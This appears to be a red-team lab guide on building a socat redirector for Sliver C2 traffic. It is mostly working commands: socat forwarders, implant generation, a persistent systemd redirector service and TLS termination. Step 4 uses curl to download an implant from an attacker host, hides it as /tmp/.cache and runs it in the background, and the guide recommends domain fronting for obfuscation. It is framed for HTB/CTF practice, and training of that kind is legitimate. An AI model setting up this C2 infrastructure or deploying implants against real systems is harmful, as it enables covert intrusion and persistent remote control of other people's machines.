


# Socat C2 Redirector Setup


*Add C2 logs in a custom C2 ingester*

## Overview

This document describes how to set up a socat-based traffic redirector for Command & Control (C2) operations. This setup is useful for:

- Practicing C2 operations in lab environments
- Adding logging/inspection layers to C2 traffic
- Redirecting traffic between network segments
- HTB/CTF scenarios where direct C2 connectivity isn't possible

## Traffic Flow



## Architecture



## Setup Instructions

### Prerequisites

- Attack box with access to both target network and C2 infrastructure
- Socat installed (`apt install socat`)
- C2 server with listener configured (Sliver, Cobalt Strike, etc.)

### Step 1: Start C2 Listener

On the Sliver server, start an MTLS listener:

```bash
# Interactive
sliver > mtls --lport 4443

# Or via daemon (persistent)
sliver > jobs
```

### Step 2: Configure Socat Redirector

On the attack box (Kali), set up the socat forwarder:

```bash
# Basic redirector
sudo socat TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443

# With logging (for analysis)
sudo socat -v TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 2>&1 | tee /tmp/c2-traffic.log

# Background execution
sudo nohup socat TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 > /dev/null 2>&1 &
```

### Step 3: Generate Implant

Generate an implant pointing to the redirector address:

```bash
sliver > generate --mtls 10.10.15.1:443 --os linux --arch amd64 --save /tmp/implant
```

### Step 4: Deploy and Execute

Transfer and execute the implant on the target:

```bash
# On target
curl -s http://ATTACKER:8080/implant -o /tmp/.cache
chmod +x /tmp/.cache
nohup /tmp/.cache >/dev/null 2>&1 &
```

## Advanced Configuration

### Multiple Redirectors

For redundancy or load balancing:

```bash
# Primary redirector
sudo socat TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 &

# Backup redirector (different port)
sudo socat TCP-LISTEN:8443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.210:4443 &
```

### Traffic Logging with Timestamps

```bash
sudo socat -v TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 2>&1 | \
  while read line; do echo "$(date '+%Y-%m-%d %H:%M:%S') $line"; done | \
  tee -a /var/log/c2-traffic.log
```

### TLS Inspection (HTTPS/MTLS)

For encrypted traffic inspection, use socat with OpenSSL:

```bash
# Create certificates
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# SSL termination and re-encryption
sudo socat \
  OPENSSL-LISTEN:443,fork,cert=cert.pem,key=key.pem,verify=0,bind=10.10.15.1 \
  OPENSSL:192.168.36.209:4443,verify=0
```

## Firewall Considerations

Ensure the necessary ports are open:

```bash
# On redirector (Kali)
sudo ufw allow 443/tcp

# On C2 server
sudo ufw allow from 192.168.36.172 to any port 4443
```

## Troubleshooting

### Connection Stuck in SYN-SENT

```bash
# Check if destination port is reachable
nc -zv 192.168.36.209 4443

# Check firewall rules on C2 server
sudo ufw status
sudo iptables -L -n
```

### Socat Process Dies

```bash
# Use systemd service for persistence
sudo tee /etc/systemd/system/c2-redirector.service << EOF
[Unit]
Description=C2 Traffic Redirector
After=network.target

[Service]
ExecStart=/usr/bin/socat TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
EOF

sudo systemctl enable c2-redirector
sudo systemctl start c2-redirector
```

### Verify Traffic Flow

```bash
# Check established connections
ss -tn | grep -E "(443|4443)"

# Monitor in real-time
watch -n 1 'ss -tn | grep -E "(443|4443)"'
```

## Security Considerations

- Use dedicated redirector hosts in production
- Implement IP whitelisting where possible
- Rotate redirector infrastructure regularly
- Monitor for anomalous traffic patterns
- Consider domain fronting for additional obfuscation

## Integration with C2 Logging

For centralized logging, forward socat output to your SIEM or custom ingester:

```bash
# Send to syslog
sudo socat -v TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 2>&1 | \
  logger -t c2-redirector -p local0.info

# Send to remote log collector
sudo socat -v TCP-LISTEN:443,fork,bind=10.10.15.1,reuseaddr TCP:192.168.36.209:4443 2>&1 | \
  nc -u logserver.local 514
```

## References

- [Socat Manual](http://www.dest-unreach.org/socat/doc/socat.html)
- [Sliver C2 Documentation](https://sliver.sh/)
- [Red Team Infrastructure Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)
